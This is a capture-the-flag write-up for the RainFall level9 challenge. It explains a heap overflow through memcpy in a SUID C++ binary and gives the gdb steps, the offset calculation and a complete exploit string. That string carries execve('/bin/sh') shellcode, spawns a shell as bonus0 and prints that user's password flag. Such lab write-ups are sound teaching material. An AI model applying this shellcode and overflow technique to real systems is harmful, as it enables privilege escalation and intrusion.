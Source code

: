 # Level 9

## Vulnerability

```memcpy()``` buffer overflow

## Context

We find a binary with owner bonus0 and SUID.
```
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```
When run, it does nothing.
```
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 hi
level9@RainFall:~$ ./level9 oh hi
level9@RainFall:~$
```

## Solution

Giving one long argument causes a segfault. We find the maximum input is 108 characters before segfaulting.
```
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 108')
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 109')
Segmentation fault (core dumped)
```

Investigating with gdb, we find this binary is compiled from C++ source code. 5 functions of class ```N``` stand out.
```
(gdb) info functions
...
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
### main() overview

Globally, ```main()``` initializes two instances (```n1``` & ```n2```) of class ```N``` which contain:
1. an annotation (string)
2. a number (int)

Then ```main()``` calls ```setAnnotation()``` which calls ```memcpy()```, copying ```argv[1]``` into a buffer ```n1->annotation```. ```memcpy()``` copies strlen(argv[1]) bytes, meaning we can easily overflow the buffer.

Finally ```main()``` adds ```n1``` + ```n2```.

### Route to solution

Can we simply (like previous levels) write our [malicious code which opens a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) in buffer ```n1->annotation```, then overwrite EIP with the address of our malicious code? Unfortunately, using the following example and [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we don't seem to be able to reach and overwrite EIP.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4...
...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
However, because we created ```n2``` after ```n1``` on the heap, we can use the ```memcpy()``` overflow to overwrite both ```n1``` and ```n2```. So can we write our malicious code in ```n1``` then overwrite ```n2``` with the address of our malicious code, then have ```main()``` call our malicious code for us when it adds? Not quite so simple...

```main()``` accesses ```n1->annotation``` dereferenced twice (a pointer to a pointer to contents), so we overwrite ```n2``` with the address of a pointer to our malicious code.

### Find buffer address

We need to find the address of ```n1```. In gdb, in the main we find the instruction after the call to ```n1->setAnnotation()``` is ```*main+136```. Put a break point at ```*main+136```, and run with a 4 byte argument ("BUFF"). Displaying the memory at %eax we find our argument stored in the buffer at ```0x804a00c```
```
level9@RainFall:~$ gdb -q level9
...
(gdb) disas main
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
...
(gdb) break *main+136
...
(gdb) run "BUFF"
...
(gdb) x/s $eax
0x804a00c:	 "BUFF"
```

### Find n2 offset

We need to find out how many bytes we write in ```n1``` before we overflow into ```n2```?

Lets run the binary with our a pattern string from our favorite [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and make it segfault.

We can see ```n2``` corresponds to register ```eax``` at time of segfault.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()

(gdb) info register eax
eax            0x41366441	1094083649
```
Lets convert the contents of ```eax``` from hex to ascii with ```xxd```
```
>$ echo 0x41366441 | xxd -r -p | rev
Ad6A
```
Searching for ```Ad6A``` in the pattern string we find it starts at byte 109. This means we can overwrite ```n2``` from byte 109 of our exploit string.

### Build exploit string

So we build our exploit which will be copied to buffer address ```0x804a00c```:
1. address of malicious code (part 2) - ```\x10\xa0\x04\x08```
2. malicious code which opens a shell - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```
3. buffer until we reach ```n2``` - ```"A" * 76```
4. address of address of malicious code (part 1) - ```\x0c\xa0\04\x08```

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Recreate Exploited Binary

As user ```bonus0```, in ```/tmp```, create and compile ```level9_source.cpp```
```
bonus0@RainFall:/tmp$ g++ level9_source.cpp -fno-stack-protector -z execstack -o level9_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus0@RainFall:/tmp$ chmod u+s level9_source; chmod +wx ~; mv level9_source ~
```

Exit back to user ```level9```, then provide our exploit with updated addresses.
With the same method as above we find the buffer address ```0x0804b008```.
```
bonus0@RainFall:/tmp$ exit
exit
level9@RainFall:~$ /home/user/bonus0/level9_source $(python -c 'print "\x10\xb0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xb0\04\x08"')
$ whoami
bonus0
```
